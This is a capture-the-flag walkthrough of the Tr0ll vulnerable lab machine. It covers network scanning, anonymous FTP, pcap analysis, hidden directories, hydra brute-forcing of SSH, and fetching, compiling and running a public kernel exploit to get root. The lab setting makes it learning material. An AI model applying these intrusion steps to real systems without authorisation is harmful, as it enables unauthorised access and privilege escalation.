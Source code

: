 # Troll

**Downlod [Troll machine](https://www.vulnhub.com/entry/tr0ll-1,100/)**

Tools :
- netdiscover
- nmap
- wire shark
- hydra

## Find IP address
we need to find the ip of this machine , I will use net discover.
![](https://i.imgur.com/GYcC1Vg.png)

`netdiscover -r 192.168.1.0/24`

let's run nmap now to find out the open ports

![](https://i.imgur.com/kO2Ztfy.png)

`nmap -A 192.168.53.134`

okay there's http and ftp and ssh.
and it tells us that the ftp allows login as anonymous and there's a file called lol.pcap
we will look at those but first let's have a look at the website and i will run Dirb in the background.

![]https://i.imgur.com/m78jfci.png

mmm,okay let's look at robots.txt!

![](https://i.imgur.com/nPfECtX.png)

secret directory !

![](https://i.imgur.com/aKOyWK5.png)

no problem , let's look at dirb result

![](https://i.imgur.com/3OpnwnQ.png)

nothing interesting here..
let's check the ftp

![](https://i.imgur.com/WI3b3mA.png)

the file that nmap told us about ,so let's fire up wire shark!
let's follow tcp stream , right click on any packet -> follow -> tcp stream
![](https://i.imgur.com/RDoovqx.png)

okay so there's secret stuff file .. maybe we should go back and read every packet maybe we could find something
after analyzing this packets I found something interesting!
here it says that we almost found the "sup3rs3cr3tdirlol"

![](https://i.imgur.com/rwyTxDJ.png)

so I read it like super secret dir lol .. so it's a directory right?
let's try the website ..

![](https://i.imgur.com/RI2nyMU.png)

okay another file let's find what is that running file command.


![](https://i.imgur.com/Ksturyh.png)

ELF 32-bit LSB executable?
I will run strings to check if there's embedded strings in it

![](https://i.imgur.com/TM5kKat.png)

oh okay ! , what ? isn't that a memory address?
after some tries , I think i will try it as a directory and it's right !

![](https://i.imgur.com/dUH0ysD.png)

browsing through them , one saying that this folder contains the password
and inside it there's a folder called Pass.txt and here's what it contains

![](https://i.imgur.com/jPDYbC7.png)

and the other is a wordlist , maybe we should use them to connect to ssh

![](https://i.imgur.com/E13hM4V.png)


first thing came to my mind is using overflow as username as the name of the directory was memory address!
and we have the password "Good_job_:)"

but nope .. so I used hydra with the usernames wordlist they provide us and password "Good_job_:)"

![](https://i.imgur.com/WbLiLlk.png)

also nothing  ! ... after spending some time I found out that the folder is literally contains the password and it's "Pass.txt" !
no problem .. let's run hydra again

![](https://i.imgur.com/86smkZR.png)

so let's connect to ssh !

![](https://i.imgur.com/VQ1a9cp.png)

# Privilege escalation

i will run uname to know kernel version

![](https://i.imgur.com/XKac486.png)

`uname -a`

so searching google for this version reveals that there's an exploitation for it [exploit db](https://www.exploit-db.com/exploits/37292)
here I ran wget to download it

![](https://i.imgur.com/rFJ1kEV.png)

`wget https://www.exploit-db.com/exploits/37292`

compiling the file using gcc

`gcc foo.c -o e`

and let's make it executable

`chmod +x e`

running it

`./e`

okay now we are  root

![](https://i.imgur.com/zpNkOFB.png)

and finally here's the flag

![](https://i.imgur.com/X9ic4dX.png)
